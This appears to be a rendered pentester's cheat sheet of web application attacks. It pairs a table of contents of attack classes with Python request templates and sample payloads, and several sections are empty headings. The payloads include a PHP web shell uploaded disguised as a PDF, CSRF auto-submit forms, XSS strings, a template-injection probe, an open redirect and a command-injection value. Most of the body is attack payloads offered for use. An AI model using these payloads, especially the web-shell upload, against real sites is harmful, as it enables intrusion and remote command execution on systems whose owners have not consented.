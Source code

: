 # Web Application Security Attacks

* Application
	* Open Redirect
	* HTTP Parameter Pollution
	* Cross Site Request Forgery
	* HTML Injection
	* CRLF Injection
	* [XS-Search](#xssearch)
	* Cross Site Sripting
	* Template Injection
	* [IDOR](#idor)
	* [Type Confusion](#type)
	* [CORS Misconfiguration](#cors)
	* [Logic Bugs](#logic)
* Server
	* [Local/Remote File Inclusion](#lfi)
	* [SQL Injection](#sqli)
	* [Server Side Request Forgery](#ssrf)
	* [XML External Entity Vulnerability](#xxe)
	* [Insecure Deserialization](#deserialization)
	* [Prototype Pollution](#proto)
	* [ESI injection](#esi)
	* [Remote Code Execution](#rce)
* Cloud/Network
	* [Sub Domain Takeover](#sub)
	* [OAuth](#oauth)
	* [SAML](#saml)
	* [Parser Exploitation](#parser)
	* [AWS buckets](#aws)
	* [AppCache](#appcache)
	* [Cache Deception](#cached)
	* [Cache Poisoning](#cachep)
	* [Proxy Attacks](#proxy)
	* [HTTP Desync](#httpd)
* Multiple/Other
	* [XSS + CSRF](#xsscsrf)
	* [XSS + TRACE](#xsstrace)
	* [SSRF + CRLF](#ssrfcrlf)
	* [Jenkins](#jenkins)
* [Firewall Bypasses](#fire)
* [Flash](#flash)
* Spreadsheets
* Wordpress
* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

<h2>Templates</h2>

<h3>Script template</h3>

	import requests
	from colorama import Fore, Back, Style

	requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)

	proxies = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}

	def format_text(title, item):
		cr = '\r\n'
		section_break = cr + "*" * 20 + cr
		item = str(item)
		text = Style.BRIGHT + Fore.RED + title + Fore.RESET + section_break + item + section_break
		return text

	r = requests.get('https://umich.com', verify=False, proxies=proxies)
	print format_text('r.status_code is: ', r.status_code)
	print format_text('r.headers is: ', r.headers)
	print format_text('r.cookies is: ', r.cookies)
	print format_text('r.text: ', r.text)


<h3>Post form data</h3>

	# Post form data
	proxies = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}
	multipart_form_data = {
	    'file': ('aloha.php', '<?php system($_GET[\'cmd\']); ?>', 'application/pdf'),
	    'submit' : (None, 'Send')
	}
	r = requests.post('http://127.0.0.2/contact.php', verify=False, proxies=proxies, files=multipart_form_data)

<h2 id="application">Application</h2>

<h3 id="open">Open Redirect</h3>

	http://evil.url

<b>Upgrade to Response Splitting</b>

<h3 id="csrf">Cross Site Request Forgery</h3>

	#GET example
	<html>
		<body>
			<script>history.pushState('', '', '/')</script>
				<form action="https://127.0.0.1/vulnerable/endpoint?param=value1&param2=value2" method="POST">
					<input type="submit" value="Submit request" />
				</form>
		</body>
	</html>

	#POST example
	<html>
		<body>
			<script>history.pushState('', '', '/')</script>
				<form action="https://127.0.0.1/vulnerable/endpoint" method="POST">
					<input type="hidden" name="param1" value="value1" />
					<input type="hidden" name="param2" value="value2" />
					<input type="submit" value="Submit request" />
				</form>
		</body>
	</html>

	#JSON example
	<html>
		<body>
			<script>history.pushState('', '', '/')</script>
				<form action="https://127.0.0.1/vulnerable/endpoint" method="POST">
					<input name='{"param1":"value1", "param2":"'value='"}'>
					<input type="submit" value="Submit request" />
				</form>
		</body>
	</html>



<b>Attacking local services</b>

<h3 id="xss">Cross Site Scripting</h3>

	<script>alert(1)</script>
	<svgonload=alert(1)>
	

<h3 id="ti">Template Injection</h3>

	input=%7B%7B7%2A7%7D%7D # {{7*7}}

<b>Sandbox Escape</b>

<h3 id="xxe">XML External Entities</h3>
	

<b>Local DTD files</b>

<h3 id="rce">Remote Code Execution</h3>

	input=%3Bdir

<b>Insecure API</b>
